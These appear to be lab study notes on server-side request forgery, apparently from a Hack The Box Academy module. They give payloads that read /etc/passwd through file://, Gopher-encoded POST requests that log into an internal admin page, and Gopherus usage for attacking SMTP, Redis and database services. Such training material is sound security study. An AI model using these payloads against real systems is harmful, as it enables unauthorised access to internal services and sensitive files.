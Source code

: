 **Local File Inclusion (LFI) via SSRF**

Use `file://` scheme to read server files:

`dateserver=file:///etc/passwd`

This can reveal sensitive files, including source code.

**Using Gopher Protocol for POST Requests**

HTTP SSRF usually only sends GET requests, but Gopher lets us craft raw POST requests.

Example POST request for `/admin.php`:

<pre>POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin</pre>

**URL-encoded Gopher payload:**

`gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`

Double URL-encode before sending:

<pre>POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01</pre>

This logs into the internal admin dashboard.

**Gopher to Interact with Other Services**

We can use Gopher to talk to services like MySQL, PostgreSQL, Redis, SMTP, etc.

Install & run Gopherus (Python2 required):

`python2.7 gopherus.py`

Supported exploits:

`mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache, rbmemcache, phpmemcache, dmpmemcache`

Example: Create SMTP Gopher payload

`python2.7 gopherus.py --exploit smtp`

Fill in:

<pre>Mail from : attacker@academy.htb
Mail To : victim@academy.htb
Subject : HelloWorld
Message : Hello from SSRF!</pre>
